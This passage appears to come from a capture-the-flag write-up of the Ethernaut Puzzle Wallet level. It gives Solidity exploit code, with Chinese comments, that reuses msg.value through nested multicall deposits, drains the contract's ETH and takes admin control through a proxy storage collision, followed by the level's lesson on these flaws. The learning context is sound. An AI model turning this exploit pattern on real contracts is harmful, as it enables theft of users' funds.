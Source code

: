 ```solidity
        bytes memory multicallData = abi.encodeWithSelector(PuzzleWallet.multicall.selector,depositDatas);
        bytes[] memory multicallDatas = new bytes[](2);
        multicallDatas[0] = multicallData;
        multicallDatas[1] = multicallData;

        bytes memory Data = abi.encodeWithSelector(PuzzleWallet.multicall.selector,multicallDatas);
        bytes[] memory Datas = new bytes[](1);
        Datas[0] = Data;

        target2.multicall{value:msg.value}(Datas);//重入攻击，使合约中余额变成转账的两倍，合约ETH余额0.001，所以我们转0.001，合约ETH余额变为0.002，我们在合约中的余额也变为0.002

        target2.execute(msg.sender, address(target2).balance, "");//转空合约中的eth

        target2.setMaxBalance(uint256(address(this)));//让合约成为admin

        target1.upgradeTo(msg.sender);// 吃饭完，掀桌子
        target1.proposeNewAdmin(msg.sender);//让我的账户成为admin
        target1.approveNewAdmin(msg.sender);
    }  
}
```

[攻击交易](https://rinkeby.etherscan.io/tx/0x96b213a29d501700fbd631c50b487abf2414fb39262d64fcde8449b07a685791)

Next time, those friends will request an audit before depositing any money on a contract. Congrats!

Frequently, using proxy contracts is highly recommended to bring upgradeability features and reduce the deployment's gas cost. However, developers must be careful not to introduce storage collisions, as seen in this level.

Furthermore, iterating over operations that consume ETH can lead to issues if it is not handled correctly. Even if ETH is spent, `msg.value` will remain the same, so the developer must manually keep track of the actual remaining amount on each iteration. This can also lead to issues when using a multi-call pattern, as performing multiple `delegatecall`s to a function that looks safe on its own could lead to unwanted transfers of ETH, as `delegatecall`s keep the original `msg.value` sent to the contract.

Move on to the next level when you're ready!

